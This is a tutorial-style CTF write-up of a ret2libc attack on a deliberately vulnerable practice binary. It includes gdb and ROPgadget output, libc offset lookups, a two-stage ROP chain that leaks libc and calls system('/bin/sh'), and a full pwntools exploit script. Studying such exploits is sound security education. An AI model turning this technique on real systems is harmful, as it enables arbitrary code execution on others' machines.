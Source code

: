 # Another awsome breakdown provided by @legacyy.  I was able to perform my first ret2libc thanks to him.
https://www.legacyy.xyz/  
https://twitter.com/0xLegacyy  

The source code of ret2libc

```c
#include <stdio.h>


int main(int argc, char **argv)
{
    char buf[64]; 
	/* buf variable takes 64 bytes of data */

    puts("Welcome! This is a ret2libc ooooooooo spooky");

    read(0, buf, 1024);
	/* read function takes reads user_input of buf. */

    return 0;
}
```

### Reviewing the list of functions using gdb debugger by typing `info func`.

```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401050  puts@plt
0x0000000000401060  read@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401156  main
0x00000000004011a0  __libc_csu_init
0x0000000000401210  __libc_csu_fini
0x0000000000401218  _fini
```

### I will need find the initial offset for the read function from the global offset table. I can find this inside `.got.plt` in ghidra.

```
read function => 0x404020
```

### Using ROPGadget to retrieve offset of pop_rdi gadget:

```
root@kali:~/recon/ret2lib# ROPgadget --binary=./ret2libc | grep rdi
0x00000000004010c6 : or dword ptr [rdi + 0x404038], edi ; jmp rax
0x0000000000401203 : pop rdi ; ret

pop_rdi => 0x401203
```

### retrieving your read, system and bin_sh offsets from your libc library (x64)

```
I will need to now retrieve my libc offsets using a useful tool named libc-database from github:

git clone https://github.com/niklasb/libc-database.git
cd libc-database
./add /usr/lib/x86_64-linux-gnu/libc.so.6
./identify /usr/lib/x86_64-linux-gnu/libc.so.6 # Will output local-XXXXXXXXXXXXXXXXX
./dump local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88 read system str_bin_sh

1. ./add /usr/lib/x86_64-linux-gnu/libc.so.6
Adding local libc /usr/lib/x86_64-linux-gnu/libc-2.31.so (id local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88  /usr/lib/x86_64-linux-gnu/libc-2.31.so)
  -> Writing libc /usr/lib/x86_64-linux-gnu/libc-2.31.so to db/local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88.so
  -> Writing symbols to db/local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88.symbols
  -> Writing version info

2. ./identify /usr/lib/x86_64-linux-gnu/libc.so.6
local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88

3. ./dump local-e01df0b7efc9be9a5af9b3c6c66da3d1b853aa88 read system str_bin_sh
offset_read = 0x00000000000eee80
offset_system = 0x0000000000048e50
offset_str_bin_sh = 0x18a152
```

### found the following libc addresses:
```
offset_read       => 0xeee80
offset_system	  => 0x48e50
offset_str_bin_sh => 0x18a152
```

### To leak the libc_read address, I will need to initialize the rop chain.

```py
buf = b"A" * (64 + 8) # The overflow of 64 bytes and overwrite of rbp
buf += p64(pop_rdi) + p64(read_got) # set rdi to read_got
buf += p64(puts_ptr) # puts read_got to screen
buf += p64(main_ptr) # return to main
```

### sending the buf payload to the binary by typing `p.sendline(buf)`

### Cleaning up the leaked address

`leaked_libc_read = u64(p.recvuntil(b"\n")[:-1].ljust(8, b"\x00"))`

- To properly clean the leaked address you must first retrieve it by typing `p.recvuntil(b"\n")`. Then to remove the newline at the end of the address by typing `[:-1]`.
- Then you will need to pad the address to equal 8 bytes to the left, this can be done by using `ljust`. `p.recvuntil(b"\n")[:-1].ljust(8, b"\x00")`
- After padding the address you can unpack the address by using `u64`.

Once cleaned the leaked_libc_read should look like `0x7fe39de9be80`

### Finding your libc_base address

To find your libc_base address you can minus `libc_read` by `leaked_libc_read`.

`libc_base = leaked_libc_read - libc_read`

### Proceeding with adding `libc_system` to `libc_base` and `libc_bin_sh` to `libc_base` to get your system/bin_sh pointer.

`system_ptr = libc_base + system_libc`

`bin_sh_ptr = libc_base + libc_bin_sh`

### Now that you have the necessary functions to call a system shell, create a new rop chain and call system to get your shell. *Reminder* You will need to ensure the rop chain equals to the multiple of 16 so the chain we are executing was not originally a multiple of 16.  To resolve this, we had found a ret; gadget to make it 32 bytes which makes it a multiple of 16 `32 / 16 = 2`.

```py
buf = b"A" * (64 + 8) # once again, adding our overflow and overwrite of rbp
buf += p64(pop_rdi) + p64(bin_sh_ptr) # rip pops rdi as "/bin/sh" pointer
buf += p64(system_ptr) # and system function pointer called "/bin/sh".
buf += p64(ret_gt) # in order for the rop chain to properly execute, another address of 8 bytes is needed to make this a multiple of 16. A simple ret; gadget should work fine.
buf += p64(main_ptr) # returns back to main.
```

### Next, send the new rop chain payload to the binary and execute your system shell.

```bash
python3 ret2libc.py 
[+] Starting local process './ret2libc': pid 5862
Leaked libc => 0x7fdbf2255e80
libc base => 0x7fdbf2167000
system pointer => 0x7fdbf21afe50
bin_sh pointer => 0x7fdbf22f1152

[*] Switching to interactive mode
$ whoami
root

```

### My exploit script

```py
from pwn import *

p = process("./ret2libc")

main_ptr = 0x401156 # offset for main().
puts_ptr = 0x401050 # offset for puts().
pop_rdi = 0x401203 # offset for pop rdi; ret;
read_got = 0x404020 # offset for read() in the global offset table
ret_gt = 0x40101a # ret gadget

libc_read = 0xeee80 # libc read function offset from libc.so.6
system_libc = 0x48e50 # libc system function offset from libc.so.6
libc_bin_sh = 0x18a152 # libc /bin/sh string offset from libc.so.6

#Receive initial text
p.recvline()

# ROP Chain #1
buf = b"A" * (64 + 8) # The overflow of 64 bytes and overwrite of rbp
buf += p64(pop_rdi) + p64(read_got) # set rdi to read_got
buf += p64(puts_ptr) # puts read_got to screen
buf += p64(main_ptr) # return to main

# send ROP chain
p.sendline(buf)

# receive line until a new line and retrieve the leaked libc address.  ljust by adding padding nullbytes until its 8 bytes long then unpack the address so that the address.
leaked_libc_read = u64(p.recvuntil(b"\n")[:-1].ljust(8, b"\x00"))

# Successfully retrieved leaked libc
print(f"Leaked libc => {hex(leaked_libc_read)}")

# Retrieve data
p.recvline()

# Getting the libc base address by minus leaked libc offset against libc_read
libc_base = leaked_libc_read - libc_read
# Getting system pointer by adding system_libc to libc_base
system_ptr = libc_base + system_libc
# Getting /bin/sh pointer by adding libc_bin_sh to libc_base
bin_sh_ptr = libc_base + libc_bin_sh

print(f"libc base => {hex(libc_base)}")
print(f"system pointer => {hex(system_ptr)}")
print(f"bin_sh pointer => {hex(bin_sh_ptr)}")
print()

buf = b"A" * (64 + 8) # once again, adding our overflow and overwrite of rbp
buf += p64(pop_rdi) + p64(bin_sh_ptr) # rip pops rdi as "/bin/sh" pointer
buf += p64(system_ptr) # and system function pointer called "/bin/sh".
buf += p64(ret_gt) # in order for the rop chain to properly execute, another address of 8 bytes is needed to make this a multiple of 16. A simple ret; gadget should work fine.
buf += p64(main_ptr) # returns back to main.

# send new rop chain
p.sendline(buf)
p.interactive()
```
